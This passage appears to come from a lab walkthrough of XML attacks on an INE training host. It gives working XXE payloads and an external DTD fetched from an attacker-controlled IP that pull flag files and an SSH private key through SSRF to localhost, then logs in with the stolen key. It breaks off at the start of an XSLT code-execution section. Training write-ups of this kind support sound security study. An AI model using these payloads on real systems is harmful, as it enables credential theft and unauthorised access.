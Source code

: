 ```perl
print "hex: $hexip\n";
my @ip = map hex($_), ( $hexip =~ m/../g );
my $ip = join('.',reverse(@ip));
my $port = hex($hexport);
print "IP: $ip  PORT: $port\n";
```
The entry #1 is interesting as it points to port 8888 being open on localhost. Let's craft a malicious DTD to retrieve in order to do a SSRF via the XXE. NOTE: we need to incapsulate the payload in the CDATA section as we do not have any php filter to be used.
The evil.dtd will look like this:
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://127.0.0.1:8888">
<!ENTITY % end "]]>">
<!ENTITY % complete "<!ENTITY file '%start;%file;%end;'>">
```
And the XXE as:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ENTITY % dtd SYSTEM "http://192.35.215.2:8000/evil.dtd"> 
    %dtd;
    %complete;
]>
<parent>
    <child>
        <name>Test Name</name>
        <description>&file;</description>
    </child>
</parent>
```
This works, and we get back a directory listing, which contains a .ssh directory and a flag file. We get the flag1 (5f1210be00b4b8dfecba7b56181d905c) with:
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://127.0.0.1:8888/flag1">
<!ENTITY % end "]]>">
<!ENTITY % complete "<!ENTITY file '%start;%file;%end;'>">
```
And ssh id_rsa with:
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://127.0.0.1:8888/.ssh/id_rsa">
<!ENTITY % end "]]>">
<!ENTITY % complete "<!ENTITY file '%start;%file;%end;'>">
```
We fix the format of id_rsa with:
```bash
sed -e "s/-----BEGIN RSA PRIVATE KEY-----/&\n/" \
    -e "s/-----END RSA PRIVATE KEY-----/\n&/" \
    -e "s/\S\{64\}/&\n/g" \
    id_rsa
```
Then we simply login to the machine (we can try the three usernames we found before and see that david works), and look for flag2: 173b0344950d28e8b5dc36dd462edaa9.
## XSLT to Code Execution
We browse to http://demo.ine.local and find a website which accepts an xml file and a xslt file.
We need both files to try out the parser. We can use the provided xslt by w3schools:
```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
  <html>
```
